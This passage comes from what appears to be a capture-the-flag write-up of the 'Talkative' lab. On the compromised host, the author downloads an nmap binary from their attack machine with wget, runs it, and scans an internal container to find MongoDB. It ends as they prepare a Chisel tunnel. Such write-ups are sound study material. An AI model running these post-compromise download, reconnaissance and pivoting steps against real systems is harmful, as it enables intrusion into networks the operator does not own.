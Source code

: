 
    saul@talkative:/dev/shm$ wget 10.10.14.6/nmap
    --2022-08-22 20:15:21--  http://10.10.14.6/nmap
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 5944464 (5.7M) [application/octet-stream]
    Saving to: ‘nmap’

    nmap                100%[===================>]   5.67M  6.41MB/s    in 0.9s    

    2022-08-22 20:15:22 (6.41 MB/s) - ‘nmap’ saved [5944464/5944464]

    saul@talkative:/dev/shm$ chmod +x nmap



Running with the default top 1000 ports finds nothing:



    saul@talkative:/dev/shm$ ./nmap 172.17.0.2

    Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2022-08-22 20:15 UTC
    Unable to find nmap-services!  Resorting to /etc/services
    Cannot find nmap-payloads. UDP payloads are disabled.
    Nmap scan report for 172.17.0.2
    Host is up (0.00013s latency).
    All 1182 scanned ports on 172.17.0.2 are closed

    Nmap done: 1 IP address (1 host up) scanned in 12.46 seconds



Running again with all ports finds a single port:



    saul@talkative:/dev/shm$ ./nmap 172.17.0.2 --min-rate 10000 -p-

    Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2022-08-22 20:15 UTC
    Unable to find nmap-services!  Resorting to /etc/services
    Cannot find nmap-payloads. UDP payloads are disabled.
    Nmap scan report for 172.17.0.2
    Host is up (0.00011s latency).
    Not shown: 65534 closed ports
    PORT      STATE SERVICE
    27017/tcp open  unknown

    Nmap done: 1 IP address (1 host up) scanned in 14.55 seconds



27017 is [commonly used
for](https://www.speedguide.net/port.php?port=27017) MongoDB.

### Rocket Chat Admin

#### Tunnel

The tools to connect to Mongo are not installed on Talkative. I'll
upload [Chisel](https://github.com/jpillora/chisel) and create a tunnel.
After hosting it on my webserver, I'll fetch it:
